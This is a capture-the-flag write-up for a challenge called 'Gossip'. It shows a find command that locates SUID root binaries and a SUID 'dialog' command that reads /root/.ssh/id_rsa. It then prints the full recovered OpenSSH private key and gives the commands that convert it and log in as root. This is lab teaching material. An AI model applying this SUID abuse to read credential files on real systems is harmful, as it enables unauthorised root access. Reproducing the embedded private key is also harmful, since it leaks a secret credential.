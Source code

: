 # Gossip

## Table of Content

<!-- MarkdownTOC -->

- [Find SUID bin](#find-suid-bin)
- [Exploid the SUID](#exploid-the-suid)

<!-- /MarkdownTOC -->

## Find SUID bin

We start by search a SUID binary, with the following command : 

`find / -user root -perm /4000 2>/dev/null`

Then we find `dialog`

## Exploid the SUID

[Dialog GTFO](https://gtfobins.github.io/gtfobins/dialog/#suid)

With some guess and luck, we get the root private key !

`dialog --textbox "/root/.ssh/id_rsa" 0 0`

It's a bit tedious to do the copy/paste manually, but finally get it!

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
4cTOVaH95/MYYZAAAACmpvaG5AeHBzMTU=
-----END OPENSSH PRIVATE KEY-----
```

The trick is that not a RSA private key, but OpenSSH private key.
So, to use it with ssh, we need to transform into RSA.

To do that, we can follow this link : 
[https://stackoverflow.com/questions/54994641/openssh-private-key-to-rsa-private-key](https://stackoverflow.com/questions/54994641/openssh-private-key-to-rsa-private-key)

```sh
puttygen id_openssh -O private-sshcom -o id_ssh
ssh-keygen -i -f id_ssh > id_rsa
chmod 600 id_rsa
ssh -p 30998 -i id_rsa root@challenge.nahamcon.com
```

Then Let's go, we're root !
